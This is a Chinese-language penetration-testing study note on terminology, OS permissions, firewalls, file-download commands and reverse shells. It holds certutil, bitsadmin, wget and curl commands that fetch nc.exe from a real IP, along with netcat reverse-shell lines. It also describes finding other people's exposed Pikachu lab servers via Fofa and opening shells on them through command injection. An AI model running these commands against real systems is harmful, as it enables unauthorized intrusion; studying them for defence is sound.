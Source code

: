 ![1645067918292-9404ec3d-375b-4e79-a66b-3494796b424b.png](%E7%AC%AC1%E5%A4%A9%EF%BC%9A%E5%9F%BA%E7%A1%80%E5%85%A5%E9%97%A8-%E6%93%8D%E4%BD%9C%E7%B3%BB%E7%BB%9F&amp;%E5%90%8D%E8%AF%8D&amp;%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD&amp;%E5%8F%8D%E5%BC%B9SHELL&amp;%E9%98%B2%E7%81%AB%E5%A2%99%E7%BB%95%E8%BF%87.assets/202204111649637996373130.png)

```
基础知识
#知识点：
1、名词解释-渗透测试-漏洞&攻击&后门&代码&专业词

2、必备技能-操作系统-用途&命令&权限&用户&防火墙

3、必备技能-文件下载-缘由&场景&使用-提权&后渗透

4、必备技能-反弹命令-缘由&场景&使用-提权&后渗透

前后端，POC（验证）/EXP（利用），Payload（以什么权限给到你）/Shellcode（漏洞利用代码），后门（系统等统称）/Webshell（特指网站），木马（控制电脑，操作）/病毒（完全破坏性程序），反弹（权限移交），回显，跳板，黑白盒测试，暴力破解，社会工程学（个人的个性），撞库，ATT&CK(attack.mitre.org)等

参考：
https://www.cnblogs.com/sunny11/p/13583083.html  //专有名词介绍
https://forum.ywhack.com/bountytips.php?download //下载命令
https://forum.ywhack.com/reverse-shell/   //反弹shell生成 
https://blog.csdn.net/weixin_43303273/article/details/83029138  //常用命令
```

- #### 基础案例1：操作系统-用途&命令&权限&用户&防火墙

```plain
1、个人计算机&服务器用机 区别操作服务和个人用机，用途
2、Windows&Linux常见命令 了解，以后知道怎么查和用就可以，https://blog.csdn.net/weixin_43303273/article/details/83029138
3、文件权限&服务权限&用户权限等 提权技术 默认拒绝权限比允许权限高 
4、系统用户&用户组&服务用户等分类
5、自带防火墙出站&入站规则策略协议（ACL）waf应用防火墙针对web 
权限满足不了目的，这时候就需要提权。Windows是最高权限是system，Linux是root
administrator删不了c:/system32,但是system用户是可以删除的

权限问题：用户权限，服务权限，文件权限。
文件权限：创建一个文件，右键属性，可以查看用户的权限，也可以进行修改。
```

![1645068072903-c9999fe6-1a01-47c9-8ddf-e5a203d82519.png](%E7%AC%AC1%E5%A4%A9%EF%BC%9A%E5%9F%BA%E7%A1%80%E5%85%A5%E9%97%A8-%E6%93%8D%E4%BD%9C%E7%B3%BB%E7%BB%9F&amp;%E5%90%8D%E8%AF%8D&amp;%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD&amp;%E5%8F%8D%E5%BC%B9SHELL&amp;%E9%98%B2%E7%81%AB%E5%A2%99%E7%BB%95%E8%BF%87.assets/202204111649638064272274.png)

```plain
设置拒绝后，
```

![1645068103821-b06bcdbc-195f-4202-9fe5-52cfdd694807.png](%E7%AC%AC1%E5%A4%A9%EF%BC%9A%E5%9F%BA%E7%A1%80%E5%85%A5%E9%97%A8-%E6%93%8D%E4%BD%9C%E7%B3%BB%E7%BB%9F&amp;%E5%90%8D%E8%AF%8D&amp;%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD&amp;%E5%8F%8D%E5%BC%B9SHELL&amp;%E9%98%B2%E7%81%AB%E5%A2%99%E7%BB%95%E8%BF%87.assets/202204111649638118864721.png)

```plain
也会收到组里的权限影响。

低权限用户能做的事情是有限的，不足以完成需要完成的目的，这时候就需要用到提权。看用户和组的权限。
Windows权限：
system	最高权限	能够删除c:/system
administrator	管理员权限（自己定义）	不能删除c:/system
User	一般用户权限	有一些不能查看文件
Linux权限：
root	最高权限
其他用户	一般权限
防护墙：默认防火墙配置是允许网站协议通信，所以在测试的时候感觉开没开都没关系。但是内网渗透测试的时候，就会对协议有影响。
Windows自带防火墙defender，Linux自带iptable。也可以装第三方防火墙。
还有专门针对web防火墙waf，系统自带针对没有针对web的。
```

![1645068171770-2f793045-2316-415b-8746-65232fb76090.png](%E7%AC%AC1%E5%A4%A9%EF%BC%9A%E5%9F%BA%E7%A1%80%E5%85%A5%E9%97%A8-%E6%93%8D%E4%BD%9C%E7%B3%BB%E7%BB%9F&amp;%E5%90%8D%E8%AF%8D&amp;%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD&amp;%E5%8F%8D%E5%BC%B9SHELL&amp;%E9%98%B2%E7%81%AB%E5%A2%99%E7%BB%95%E8%BF%87.assets/202204111649638151670572.png)

- #### 实用案例1：文件上传下载-解决无图形化&解决数据传输

```plain
https://forum.ywhack.com/bountytips.php?download   下载命令，反弹shell命令，可以直接生成命令执行。
一般拿到权限只有cmd这个命令行，不能复制下载等，这时候就需要下载命令
直接访问www.xiaodi8.com/nc.exe 就可以直接下载
Linux：wget curl python ruby perl java等
Windows：PowerShell Certutil Bitsadmin msiexec mshta rundll32等
Linux - wget:wget http://47.100.167.248:8081/nc.exe -O exploit.exe
Linux - curl:curl http://47.100.167.248:8081/nc.exe -o exploit.exe
Windows-Bitsadmin:bitsadmin /rawreturn /transfer down "http://47.100.167.248:8081/nc.exe" c:\\exploit.exe
下载的时候也要看是否有权限执行，如果没有执行权限，那下载也不会成功

把NC.exe上传至根目录。在kali中执行wget http://47.100.167.248:8081/NC.exe -O exploit.exe，就可以下载文件。
```

![1645068238220-44004c5b-6635-49b1-93fb-b8c80e4514f0.png](%E7%AC%AC1%E5%A4%A9%EF%BC%9A%E5%9F%BA%E7%A1%80%E5%85%A5%E9%97%A8-%E6%93%8D%E4%BD%9C%E7%B3%BB%E7%BB%9F&amp;%E5%90%8D%E8%AF%8D&amp;%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD&amp;%E5%8F%8D%E5%BC%B9SHELL&amp;%E9%98%B2%E7%81%AB%E5%A2%99%E7%BB%95%E8%BF%87.assets/202204111649638193130003.png)

```plain
cmd执行：
certutil.exe -urlcache -split -f http://47.100.167.248:8081/NC.exe exploit.exe
```

![1645068268918-68b264fa-5a71-4f2a-a429-94cf6b63283e.png](%E7%AC%AC1%E5%A4%A9%EF%BC%9A%E5%9F%BA%E7%A1%80%E5%85%A5%E9%97%A8-%E6%93%8D%E4%BD%9C%E7%B3%BB%E7%BB%9F&amp;%E5%90%8D%E8%AF%8D&amp;%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD&amp;%E5%8F%8D%E5%BC%B9SHELL&amp;%E9%98%B2%E7%81%AB%E5%A2%99%E7%BB%95%E8%BF%87.assets/202204111649638222142502.png)

```plain
不过被火绒查杀了。
cmd执行和powershell执行相同道理，都可以进行文件下载执行
```

- #### 实用案例2：反弹Shell命令-解决数据回显&解决数据通讯

```plain
• 执行命令的时候，会有数据的回显，告诉自己这个命令是不是执行成功，有没有文件，但是在大部分的测试环境是没有回显的。
useradd 用户名 passwd 用户名
测试Linux系统添加用户或修改密码命令交互回显问题
有些工具是不支持回显或者交互式，则这个时候需要反弹shell进行实现交互式和回显
交互式：比如执行passwd xioadi
```

**交互式**

![1645068345360-4063c346-3605-4ee5-a06d-d2489971e9b5.png](%E7%AC%AC1%E5%A4%A9%EF%BC%9A%E5%9F%BA%E7%A1%80%E5%85%A5%E9%97%A8-%E6%93%8D%E4%BD%9C%E7%B3%BB%E7%BB%9F&amp;%E5%90%8D%E8%AF%8D&amp;%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD&amp;%E5%8F%8D%E5%BC%B9SHELL&amp;%E9%98%B2%E7%81%AB%E5%A2%99%E7%BB%95%E8%BF%87.assets/202204111649638248501910-16941433983058.png)

##### 回显式



![1645068345369-20b31170-30d9-4065-a6e9-6f2cc97118b9.png](%E7%AC%AC1%E5%A4%A9%EF%BC%9A%E5%9F%BA%E7%A1%80%E5%85%A5%E9%97%A8-%E6%93%8D%E4%BD%9C%E7%B3%BB%E7%BB%9F&amp;%E5%90%8D%E8%AF%8D&amp;%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD&amp;%E5%8F%8D%E5%BC%B9SHELL&amp;%E9%98%B2%E7%81%AB%E5%A2%99%E7%BB%95%E8%BF%87.assets/202204111649638277219151.png)

- #### 结合案例1：防火墙绕过-正向连接&反向连接&内网服务器

```plain
1、内网：
内网 -> xiaodi8 //内网给shell（nc -e cmd 192.168.192.132 5577），xiaodi8监听(nc -lvvp 5577)
xiaodi8 !-> 内网
2、防火墙：
xiaodi8 <-> aliyun aliyun(nact www.xiaodi8.com 5566 -e /bin/bash) xiaodi8(nc -lvvp 5566)
xiaodi8防火墙 -> aliyun xiaodi8可以连接aliyun，aliyun不可以连接xiaodi8
aliyun !-> xiaodi8防火墙
防火墙入站严格，出站宽松

内网-->167.248
192.168.199.135连接192.168.199.130
199.135用nc执行nc-e-cmd -192.168.199.130 5577
199.130执行nc -lvvp 5577      服务器接受不了反弹shell  解决：宝塔端口问题
```

![1645068411709-bcb4d43b-bfe3-440d-9d85-b701483813e7.png](%E7%AC%AC1%E5%A4%A9%EF%BC%9A%E5%9F%BA%E7%A1%80%E5%85%A5%E9%97%A8-%E6%93%8D%E4%BD%9C%E7%B3%BB%E7%BB%9F&amp;%E5%90%8D%E8%AF%8D&amp;%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD&amp;%E5%8F%8D%E5%BC%B9SHELL&amp;%E9%98%B2%E7%81%AB%E5%A2%99%E7%BB%95%E8%BF%87.assets/202204111649638301207311.png)

```plain
167-->内网完成不了 这个解决只能在路由器完成，进行端口映射。
防火墙：
开了防火墙的一方，能主动出去，但不能被动连接
没开防火墙：135监听 136发送 可以执行。双向都是可以的
135开启防火墙：
135	发送	 136
136	不能发送	 135
完成防火墙测试。
```

- #### 结合案例2：学会了有手就行-Fofa拿下同行Pikachu服务器

```plain
文件下载&反弹Shell:前面要带上 127.0.0.1&
certutil -urlcache -split -f http://47.100.167.248/NC.exe nc.exe
nc -e cmd 47.75.212.155 5566
语法："pikachu"&&country="CN"&&title=="Get the pikachu"
用命令把nc上传到对方服务器，然后在代码执行反弹cmd命令
```

![1645068460272-6fb9e1f6-d701-4c4e-892c-4d60124994d6.png](%E7%AC%AC1%E5%A4%A9%EF%BC%9A%E5%9F%BA%E7%A1%80%E5%85%A5%E9%97%A8-%E6%93%8D%E4%BD%9C%E7%B3%BB%E7%BB%9F&amp;%E5%90%8D%E8%AF%8D&amp;%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD&amp;%E5%8F%8D%E5%BC%B9SHELL&amp;%E9%98%B2%E7%81%AB%E5%A2%99%E7%BB%95%E8%BF%87.assets/202204111649638402492058.png)

```plain
但是我很多执行后，没有回显结果。
```